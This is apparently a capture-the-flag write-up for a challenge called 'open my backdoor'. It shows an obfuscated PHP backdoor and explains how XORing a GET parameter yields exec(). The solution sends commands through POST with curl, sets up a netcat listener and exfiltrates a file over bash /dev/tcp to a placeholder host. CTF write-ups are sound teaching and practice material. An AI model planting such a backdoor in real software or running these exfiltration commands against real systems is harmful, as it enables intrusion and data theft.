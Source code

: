 # open my backdoor

## Description:

> 毛哥是一位年輕有為且腿毛多的資安研究員

> 並且毛哥還是一位 PHP 大師，所以他在伺服器上放了只有他自己才看得懂的 PHP 後門

> 但由於毛哥平時過於驕傲自大，你決定給他點顏色瞧瞧

> 請你開他的後門，把藏在深處的那把 flag 挖出來吧!

The backdoor:

```php


<?php
set_time_limit(3);
ini_set('max_execution_time', 3);
highlight_file(__FILE__);$f=file(__FILE__);

$c=chr(substr_count($f[1],chr(32)));
$x=(substr($_GET[87],0,4)^"d00r");$x(${"_\x50\x4f\x53\x54"}{$c});
```

## Solution:

`$c` is evaluated to be `#` since there are 35 spaces on the second line.

I can control the `GET` parameter with `?87=value` such that after xor with `"d00r"`, it will become a function which will be called at the end. Entering `\%01\%48\%55\%11` will result in the function `exec()`.

I can also control the parameter of `POST` with `curl -d "#=command" -X POST`. Since `exec()` will not show any output on the web page, I will send the output to my machine with a reverse tunnel.

On my machine, I set up a listener to receive the output with the following command:

```console
root@kali:~# while [ true ]; do nc -l PORT; done
```

Then, I will get the flag with the following command:

```console
root@kali:~# /bin/bash -c 'exec 5<>/dev/tcp/MY_IP/PORT; /bin/cat /flag_is_here >&5'
```

`FLAG{do_u_like_my_d0000000r?}`
